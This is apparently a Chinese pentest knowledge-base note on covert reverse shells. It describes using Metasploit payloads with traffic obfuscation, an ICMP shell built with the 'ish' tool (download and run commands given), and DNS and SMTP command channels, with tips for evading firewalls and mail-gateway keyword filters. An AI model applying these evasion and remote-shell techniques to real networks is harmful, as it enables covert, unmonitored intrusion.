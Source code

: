 ```yaml
---
title: reverse_shell
id: zhfly3503
---
```


## reverse_shell

这里说的反弹shell不是上面开头那里说的利用内部软件进行反弹，而是利用一些非常规协议来绕过一些安全设备的流量监测功能。

**tcp/udp shell**

tcp/udp的shell可以使用msf生成的tcp马、流量混淆推荐rc4和https偏执模式，也能够绕过一些防火墙。

**icmp shell**

使用ICMP来作为隐蔽通道的原理是：有一个服务端和一个客户端，当它们通信时会用到 ICMPECHO 和 ICMPECHOREPLY的数据部分。这就意味着通过ICMP包的数据部分可以发送和接收数据。

![image](../img/da0b7f60633f3a58641e54429d905e0c.png)

这里用python写了一个嗅探功能的小脚本 因为icmp是没有端口概念的，也就无法直接建立两台主机上ICMP应用程序的通信。所以程序需要从嗅探到的icmp包中再传给应用层，然后再执行其他的。

![image](../img/c1509b2a7c46c33babb19a9844a21915.png)

这里使用ish演示

```
wget http://prdownloads.sourceforge.net/icmpshell/ish-v0.2.tar.gz 
```

被控端

```
./ishd -i 6666 -t 0 -p 1024 -d 
```

控制端

```
./ish -i 6666 -t 0 -p 1024 127.0.0.1 
```

![image](../img/8a3b929ffc080242cffd38efa7881f8d.png)

这样利用icmp传输可以绕过大部分的设备。

**DNS/smtp shell**

这里提一下DNS和smtp服务。之前做的分享中有关于SMTP协议传输shell的思路，其实是利用smtp协议可以出网的思路，写一个smtp的客户端和服务端对应发送和接受执行内容，传输为了方便演示使用的是明文，为了增加迷惑性，添加删除邮件功能，需要提高的就是可以对传输的文本内容进行混淆加密之类的，防止安全邮件网关根据关键字拦截邮件。DNS这个的话就是通过解析记录的内容来进行命令的执行，还可以配合dnslog来使用。

![image](../img/510f4f5aaf99820b6dec7e4e9f168150.png)